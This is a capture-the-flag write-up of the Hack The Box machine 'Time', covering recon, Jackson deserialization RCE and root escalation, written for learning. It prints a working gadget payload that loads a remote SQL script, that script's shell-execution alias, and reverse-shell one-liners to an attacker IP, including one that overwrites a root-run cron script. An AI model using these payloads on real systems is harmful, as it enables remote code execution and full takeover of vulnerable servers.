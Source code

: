 ```yaml
---
coverY: 0
---
```


# 📦 HTB: Time – Deserialization, Java Shenanigans & Root in Style

<figure><img src="../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
_This medium-difficulty HTB box was a great lesson in one thing:_\
**Read the damn error. Then research it like your shell depends on it.**
{% endhint %}

### 🧭 Enumeration

#### 🔍 Nmap Scan

As always, I began with a full enumeration sweep:

```
nmap -Pn -n -A --reason -vvv -oN nmap/00-basic.txt -iL target.txt
```

**Findings:**

* **Port 22**: OpenSSH 8.2p1 (Ubuntu)
* **Port 80**: Apache 2.4.41 hosting a web server titled _"Online JSON Parser"_

### 🕸 Recon

The website was a **JSON beautifier** — harmless-looking, but CTFs don’t give you port 80 unless they want you to do _evil developer things_.

I ran `hakrawler` to check for juicy endpoints:

```
cat url.txt | hakrawler -proxy http://localhost:8080 -subs -d 5 -insecure -s -json >hakrawler.json
```

No admin panel. No hidden paths. But what caught my eye was how it **handled malformed JSON**...

### 💥 Exploitation – Jackson Deserialization RCE

Normal JSON works:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
{"test":"hello"}
```

But malformed input returned this beauty:![](<../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png>)

> `Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException`

> _Expected START\_ARRAY, got START\_OBJECT…_\
> &#xNAN;_"need JSON Array to contain As.WRAPPER\_ARRAY type information..."_

**Boom. Jackpot.**\
That’s **Jackson Deserialization**.



<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I dug into this article that became my savior:\
🔗 [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

#### 🧪 Payload Time

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8:8000/inject.sql'"}]
```

* 📄 `inject.sql` – Weaponized

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.8/4444 0>&1')
```

```
nc -lvnp 4444
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

💥 **Reverse shell obtained!**

### 🧍 Local Privilege Escalation – Timer Shenanigans

After running `linpeas`, I found something gold:

* /usr/bin/timer\_backup.sh run as root every 10 seconds

```
echo "bash -i >& /dev/tcp/10.10.14.8/9000 0>&1" > /usr/bin/timer_backup.sh
```

```
nc -lvnp 9000
```

📈 Got root. Simple, clean, and elegant.

## References

* https://github.com/lorenzodegiorgi/jackson-vulnerability
* https://github.com/FasterXML/jackson/wiki/Jackson-Polymorphic-Deserialization-CVE-Criteria
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://www.youtube.com/watch?v=uS37TujnLRw
* https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

## 🧠 Final Thoughts

What made **HTB: Time** stand out wasn’t the difficulty of the exploit. It was the **importance of interpreting Java errors and knowing what to Google.**

➡️ _Lesson:_ Sometimes the error **is** the clue.

This box was a smooth ride with:

* 🔍 Deep Java debugging
* 🧬 Deserialization abuse
* 📅 Scheduled script escalation

And that's a wrap! Time box — rooted. ✅

